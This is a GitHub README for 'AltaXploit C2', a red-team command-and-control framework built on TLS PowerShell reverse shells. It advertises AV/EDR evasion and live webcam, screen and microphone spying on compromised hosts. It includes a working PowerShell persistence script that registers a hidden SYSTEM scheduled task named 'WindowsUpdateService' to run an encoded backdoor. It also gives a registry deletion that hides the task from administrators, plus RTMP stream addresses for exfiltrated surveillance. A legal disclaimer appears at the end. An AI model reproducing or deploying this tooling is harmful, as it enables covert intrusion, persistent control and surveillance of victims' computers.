





<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/AltaXploit"></a>
  <a href="https://www.alwaz.co.uk"></a>
  <a href="#"></a>
  <a href="#"></a>
  <a href="#"></a>
</p>

---

# ⚡ AltaXploit C2 Framework ⚡

## *Advanced Red Team Command & Control Infrastructure*

---

## 🧭 Table of Contents
- [🌟 Overview](#-overview)
- [🔥 Key Features](#-key-features)
- [💻 Command Reference](#-command-reference)
- [🚀 Installation & Setup Guide](#-installation--setup-guide)
- [🔐 Advanced Persistence & Payload Deployment](#-advanced-persistence--payload-deployment)
- [🎥 Surveillance Modules – Live Demo](#-surveillance-modules--live-demo)
- [🔌 Port Architecture & Network Layout](#-port-architecture--network-layout)
- [⚙️ Advanced Configuration](#️-advanced-configuration)
- [🎁 Gift to the Community – Hide Scheduled Tasks](#-gift-to-the-community--hide-scheduled-tasks)
- [⚠️ Legal Disclaimer & Disclaimer of Liability](#️-legal-disclaimer--disclaimer-of-liability)

---

## 🌟 Overview

**AltaXploit C2** is a next‑generation Red Team Command and Control framework engineered for stealth, resilience, and operational flexibility. Built around advanced PowerShell reverse shells, it operates **completely in‑memory** – never touching disk – to effortlessly bypass modern AV/EDR solutions. With integrated surveillance modules, a built‑in payload generator, and secure TLS communications, it provides everything a red team needs for covert engagements.

> 🛡️ *"With great power comes great responsibility!"* – AltaXploit Motto

<p align="center">
  
</p>

---

## 🔥 Key Features

| Feature | Description |
|---------|-------------|
| 🧬 **In‑Memory Execution** | Payloads run purely in memory; no files written to disk, leaving minimal forensic footprint. |
| 🔒 **TLS Encrypted C2** | All traffic over **port 443** with self‑signed certificates, blending with normal HTTPS traffic. |
| 🎥 **Live Surveillance Suite** | Real‑time webcam, screen, and microphone streaming using **ffmpeg** and a local **Node Media Server** (port 1935). |
| 🧠 **Persistent Client Tracking** | Unique HWID‑based identification; automatically re‑attaches to reconnecting clients. |
| 🛠️ **One‑Click Payload Generator** | Produces stealthy Windows EXE (via .NET) with no console flash – ready for deployment. |
| 📂 **File Transfer** | Upload/download files to/from compromised hosts with progress feedback. |
| 💻 **Interactive PowerShell Shells** | Full interactive sessions with command history and color‑coded output. |
| 🔄 **Auto‑Reconnect & Heartbeat** | The backdoor automatically reconnects if the server goes down, with exponential backoff and jitter. |
| 👑 **NT AUTHORITY\SYSTEM Persistence** | Deploy a scheduled task that runs as SYSTEM, survives reboots, and auto‑restarts 999 times. |
| 🕵️ **GUI Task Hiding** | Remove the Security Descriptor (SD) registry key to make the scheduled task invisible in the Task Scheduler GUI. |

---

## 💻 Command Reference

### Main Prompt Commands (at `AltaXploit>`)

| Command | Description |
|---------|-------------|
| `list` | Show all connected clients |
| `attack <id>` | Enter interactive shell with a client |
| `kill <id>` | Permanently terminate a client session |
| `generate payload` | Build a new Windows EXE payload |
| `help` | Display this command reference |
| `clear` | Clear the terminal |
| `exit` | Shut down the C2 server |

### Interactive Shell Commands (within `AltaXploit[<id>]>`)

| Command | Description |
|---------|-------------|
| `back` | Return to main prompt |
| `upload <src> <dst>` | Upload a local file to the client |
| `download <file>` | Download a file from the client |
| `install spyware` | Install FFmpeg on the target (required for spy modules) |
| `spy camera` | Start live webcam stream |
| `spy screen` | Start live screen capture |
| `spy mic` | Start live microphone stream |
| `spy stop` | Stop all active streams |
| `<any PowerShell command>` | Execute arbitrary commands on the target |

> 🖼️ *For a visual guide, see the command menu screenshot below.*  
> 

---

## 🚀 Installation & Setup Guide

> **💡 Recommended Environment:** Kali Linux (or any Debian‑based) with root access. The setup script installs all dependencies automatically.

### Step 1 – Clone the Repository
```bash
git clone https://github.com/AltaXploit/AltaXploit-C2.git
cd AltaXploit-C2
```

### Step 2 – Make Setup Executable
```bash
chmod +x setup.py
```

### Step 3 – Run the Dependency Installer
```bash
sudo python3 setup.py
```

**What this does:**
- 🐧 Installs system packages: `ffmpeg`, `mpv`, `vlc`, `nodejs`, `npm`, `openssl`, `python3-pip`, `python3-tk`, `wget`, and more.
- 🧩 Installs Python modules: `python-vlc`, `pycryptodome` (with `--break-system-packages` for Kali).
- 📦 Installs Node.js module `node-media-server` locally in the `script/` folder.
- 🔐 Generates self‑signed SSL certificates in `certs/`.
- 📁 Creates required directories (`Client-Data`, `script`, `certs`, `build`).
- 🧪 Verifies all executables and imports.

> ⏱️ The entire setup takes **3–5 minutes** depending on your connection speed.

### Step 4 – Launch the C2 Server
```bash
python3 C2.py
```

You will be prompted to enter your **LHOST IP** (the public IP where the server is reachable) – this is used for RTMP stream URLs. After that, you'll see the animated banner and the `AltaXploit>` prompt.

<p align="center">
  
</p>

---

## 🔐 Advanced Persistence & Payload Deployment

The `backdoor.ps1` included in the repository is a **fully persistent PowerShell client** that:
- Establishes a **TLS‑encrypted reverse shell** back to your C2 server.
- Sends **heartbeat** messages every 30 seconds to keep the connection alive.
- **Auto‑reconnects** with exponential backoff and jitter if the server goes offline.
- Handles **file uploads/downloads** and command execution natively.

### 🚀 Deploying the Backdoor with SYSTEM Persistence

1. **Edit the backdoor.ps1** – set your C2 server IP (port is **hardcoded to 443** – do **not** change it):
   ```powershell
   $s= "YOUR_IP"   # Change this to your C2 server's IP
   ```

2. **Convert the script to Base64** (this is required for the persistence task).  
   On your Linux machine, run:
   ```bash
   cat backdoor.ps1 | iconv -t UTF-16LE | base64 -w 0 > payload.b64
   ```
   Or in PowerShell on Windows:
   ```powershell
   $bytes = [System.Text.Encoding]::Unicode.GetBytes((Get-Content .\backdoor.ps1 -Raw))
   [Convert]::ToBase64String($bytes) | Out-File payload.b64
   ```

3. **Copy the Base64 string** into the persistence script (provided below).  
   Replace `$encoded = "..."` with your Base64 payload.

4. **Run the persistence script as Administrator** on the target machine (e.g., via a C2 shell with `upload` and then `powershell -ExecutionPolicy Bypass -File persist.ps1`).  
   This will:
   - Create a scheduled task named **`WindowsUpdateService`**.
   - Run at startup **as NT AUTHORITY\SYSTEM** (highest privileges).
   - Auto‑restart up to **999 times** if it fails.
   - Start immediately after registration.

```powershell
# ============================================================
# GOD LEVEL PERSISTENCE - NT AUTHORITY\SYSTEM
# Clean version - No conflicting messages
# ============================================================

# === PASTE YOUR BASE64 PAYLOAD HERE ===
$encoded = "JABFAHIAcgBvAHIAQQBjAHQAaQBvAG4AUAByAGUAZgBlAHIAZQBuAGMAZQA9ACIAUwBpAGw"

# ============================================================
# Remove any old tasks
# ============================================================
try {
    Unregister-ScheduledTask -TaskName "WindowsUpdateService" -Confirm:$false -ErrorAction SilentlyContinue
} catch {}

# ============================================================
# MAIN TASK - Runs at startup as SYSTEM (Forever)
# ============================================================
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -EncodedCommand $encoded"
$trigger = New-ScheduledTaskTrigger -AtStartup
$trigger.Delay = "PT10S"
$principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet `
    -AllowStartIfOnBatteries `
    -DontStopIfGoingOnBatteries `
    -StartWhenAvailable `
    -Hidden `
    -Compatibility Win8 `
    -ExecutionTimeLimit (New-TimeSpan -Minutes 0) `
    -RestartCount 999 `
    -RestartInterval (New-TimeSpan -Minutes 1) `
    -MultipleInstances IgnoreNew

Register-ScheduledTask -TaskName "WindowsUpdateService" -Action $action -Trigger $trigger -Principal $principal -Settings $settings -Force

# ============================================================
# START IMMEDIATELY
# ============================================================
Start-ScheduledTask -TaskName "WindowsUpdateService" -ErrorAction SilentlyContinue

# ============================================================
# VERIFICATION
# ============================================================
Write-Host "[+] GOD LEVEL PERSISTENCE INSTALLED!" -ForegroundColor Green
Write-Host "[+] Task: WindowsUpdateService (SYSTEM)" -ForegroundColor Green
Write-Host "[+] Registry Backup: HKLM\Run" -ForegroundColor Green
Write-Host "[+] Auto-heals: 999 restart attempts" -ForegroundColor Green
Write-Host "[+] Runs forever until PC shuts down" -ForegroundColor Green
```

### 🔍 Verifying the Task (Hidden from Users)
Even if the task is hidden, you can still check it with PowerShell:
```powershell
Get-ScheduledTask -TaskName "WindowsUpdateService" | Select-Object TaskName, State, Enabled, LastRunTime, NextRunTime
```

---

## 🎥 Surveillance Modules – Live Demo

AltaXploit includes a full‑blown surveillance suite that captures and streams live video/audio from compromised machines. Once you install `ffmpeg` on the target using `install spyware`, you can activate any of these modules.

| Module | Description | Screenshot |
|--------|-------------|------------|
| **Camera** | Streams real‑time webcam feed. |  |
| **Screen** | Captures live desktop screen. |  |
| **Microphone** | Records live audio from the mic. |  |

> 🔴 All streams are sent via RTMP to your local Node Media Server (port 1935) and can be viewed using the built‑in GUI viewers (`cam.py`, `screen.py`, `microphone.py`). Alternatively, you can use any RTMP‑compatible player like VLC at:
> - `rtmp://<LHOST>/live/stream` (camera)
> - `rtmp://<LHOST>/live/screen` (screen)
> - `rtmp://<LHOST>/live/mic` (microphone)

<p align="center">
  
</p>

---

## 🔌 Port Architecture & Network Layout

| Port | Protocol | Service | Purpose |
|------|----------|---------|---------|
| **443** | HTTPS/TLS | C2 Server | Main command & control channel (mandatory) |
| **1935** | RTMP | Node Media Server | Streaming video/audio for spy modules |

- The C2 server is **hardcoded** to listen on **port 443** – this mimics standard secure web traffic, making it harder to detect by network filters.
- The Node Media Server runs locally on **port 1935** and is automatically started when a `spy` command is issued. It pushes RTMP streams to the attacker's machine for viewing via the included GUI viewers.

> 🔥 **Pro Tip:** If you're behind a NAT, ensure port forwarding is configured for both ports.

---

## ⚙️ Advanced Configuration

### Customizing LHOST
The C2 server will ask for the LHOST IP at startup. You can also set it manually by editing the `LHOST` variable in `C2.py` (line ~40).

### Modifying SSL Certificates
Replace the self‑signed `cert.pem` and `key.pem` in `certs/` with your own signed certificates for added stealth.

### Disabling GUI Viewers
If you're running headless (no `DISPLAY`), you can comment out the GUI launch lines in `C2.py` (inside the `spy` command handlers) and use an external RTMP player like VLC to view streams.

---

## 🎁 Gift to the Community – Hide Scheduled Tasks

After deploying the persistence task, **make it invisible in the Task Scheduler GUI** (even for Administrators). This works only if you have **NT AUTHORITY\SYSTEM** privileges (e.g., from a SYSTEM shell).

```powershell
$taskName = "WindowsUpdateService"  # Must match the task name used above
$regPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskName"
Remove-ItemProperty -Path $regPath -Name "SD" -ErrorAction Stop
```

**What this does:**  
Removes the **Security Descriptor (SD)** registry value, which is used by the Task Scheduler to determine visibility. Once deleted, the task will no longer appear in the `taskschd.msc` GUI – it becomes accessible **only via PowerShell or API**, but will still run perfectly.  
**Note:** This trick works only when executed as **SYSTEM**. If you run it as an admin user, it will fail because the registry key is protected.

---

## ⚠️ Legal Disclaimer & Disclaimer of Liability

> **IMPORTANT:** *This software is provided solely for educational purposes, authorized penetration testing, and red teaming engagements with explicit written permission from the system owner. Unauthorized access to computer systems is illegal and punishable by law.*

- **Author's Liability:** The developer (**Muhammad Alwaz**) assumes **no responsibility** whatsoever for any misuse, damage, or illegal activities conducted with this framework.
- **User Accountability:** By downloading, installing, or using this tool, you agree that you are solely responsible for compliance with all applicable local, national, and international laws. You may not use this tool for any malicious or unlawful purpose.

> 🛡️ *Use responsibly – hack the planet, but only with consent!*

---

## 📬 Contact & Support

- **Developer:** Muhammad Alwaz
- **GitHub:** [AltaXploit](https://github.com/AltaXploit)
- **Website:** [alwaz.co.uk](https://www.alwaz.co.uk)

---

<p align="center">
  <b>Made with ❤️ for the Red Team Community</b>
</p>
